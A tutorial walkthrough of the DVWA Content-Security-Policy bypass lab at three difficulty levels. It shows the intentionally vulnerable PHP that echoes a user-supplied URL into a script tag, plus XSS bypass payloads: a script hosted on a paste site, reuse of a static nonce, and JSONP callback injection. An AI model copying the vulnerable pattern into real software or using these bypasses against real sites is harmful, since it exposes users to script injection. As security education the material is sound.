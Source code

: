 # What is Content-Security-Policy?

Content-Security-Policy is the name of a HTTP response header that modern browsers use to enhance the security of the document (or web page). The Content-Security-Policy header allows you to restrict how resources such as JavaScript, CSS, or pretty much anything that the browser loads.

Although it is primarily used as a HTTP response header, you can also apply it via a [meta tag](https://content-security-policy.com/examples/meta/).

The term Content Security Policy is often abbreviated as CSP.

# What types of attacks does Content-Security-Policy help mitigate?

CSP was first designed to reduce the attack surface of Cross Site Scripting (XSS) attacks, later versions of the spec also protect against other forms of attack such as Click Jacking.

# Exploiting the Low level

We will be welcomed by the following message and a text input:

You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:

![](https://miro.medium.com/v2/resize:fit:845/0*bHvNiwJxgwJtptlV.png)

We can enter any random text and click on include and as we are using burp suit we can see the CSP rules in the response headers.

![](https://miro.medium.com/v2/resize:fit:875/1*_y-Jv3gMcUvc9aybXrQVpA.png)

Burp suite

Here we see that scripts can be loaded from the following sites :

- [**https://pastebin.com**](https://pastebin.com/)
- example.com
- code.jquery.com
- [**https://ssl.google-analytics.com**](https://ssl.google-analytics.com/) ;

The vulnerability here is that pastebin is a site that lets us create our own content. We can go on hastebin.com and click on new and paste the following script :

alert(“”hacked”);

![](https://miro.medium.com/v2/resize:fit:875/1*j372GCKQzeOFM1JZvCmmKw.png)

hastebin website

Once it’s created,In the url we get an “oracutubuw.less” for it. We can access to the raw paste by appending `/raw/` before the “oracutubuw.less”.

![](https://miro.medium.com/v2/resize:fit:858/1*sGx8gGycxGEvVUdKd99cyQ.png)

We get the link to the `raw` paste and put it in our input. When we click Include the page reloads, downloads our script from hastebin and executes it and we can see a pop-up with the text “hacked”.

![](https://miro.medium.com/v2/resize:fit:584/1*o9uVk6mnu2EOShiupxio7g.png)

# Low level — Vulnerable code

```
```<?php**$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, jquery and google analytics.header($headerCSP);## https://pastebin.com/raw/R570EE00**?>**  
**<?php**  
if (isset ($_POST['include'])) {  
$page[ 'body' ] .= "  
    <script src='" . $_POST['include'] . "'></script>  
";  
}  
$page[ 'body' ] .= '  
<form name="csp" method="POST">  
    <p>You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:</p>  
    <input size="50" type="text" name="include" value="" id="include" />  
    <input type="submit" value="Include" />  
</form>  
';
```
Scripts from third party websites should not be accepted unless it is necessary.

# Medium level

A simple XSS like below wont work...
```js
<script>alert(1)</script>
```

```html
<h1>Vulnerability: Content Security Policy (CSP) Bypass</h1>  
<div class="vulnerable_code_area">  
<script>alert(1)</script>
```

It might be because we are in the div with the class vulnerable_code_area ? If we try to escape from it with `</div><script>alert(1)</script><div>`, it doesn't work either:

```html
<h1>Vulnerability: Content Security Policy (CSP) Bypass</h1><div class="vulnerable_code_area">  
</div><script>alert(1)</script><div>
```

Let’s take a look at the Content-Security-Policy from the response headers. The CSP is the following :

``` javascript
script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```

Here is the official documentation for each of these parameters.

CSP parameterDescriptionselfAllows loading resources from the same origin (same scheme, host and port).self-inlineAllows use of inline source elements such as style attribute, onclick, or script tag bodies (depends on the context of the source it is applied to) and javascript: URIsnonceAllows script or style tag to execute if the nonce attribute value matches the header value. For example: 
```js
<script nonce="2726c7f26c">alert("hello");</script>
```

Apparently for our script tag to work we need to add the tag `nonce` with the correct value. The thing is... the nonce never changes ! So it is extra easy to do it, we just paste the following code in the input and sure enough we get our pop-up:
``` javascript
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("hacked");</script>
```

# High level

**_The page makes a call to ../..//vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code. 1+2+3+4+5=_**

When we click **Solve the sum**, we get :

**_The page makes a call to ../..//vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code. 1+2+3+4+5=15_**

When we take a look at the event triggered upon clicking the button, here is the code we find:

```
function clickButton() {  
    var s = document.createElement("script");  
    s.src = "source/jsonp.php?callback=solveSum";  
    document.body.appendChild(s);  
}
```

When we click on the button, a script tag is created. The source of the script is set to the file `jsonp.php`. When we click the button, the form is sent with the callback function within its parameter `callback` :

```
GET /vulnerabilities/csp/source/jsonp.php?callback=solveSum HTTP/1.1  
Host: localhost  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,***/*;q=0.8**  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Cookie: PHPSESSID=120fgd8orft160g1ot137588k2; security=high  
Connection: close  
Pragma: no-cache  
Cache-Control: no-cache
```

If we intercept the request and change the callback function from `solveSum` to `alert("hacked")//`, we manage to create a pop up despite the Content Security Policy.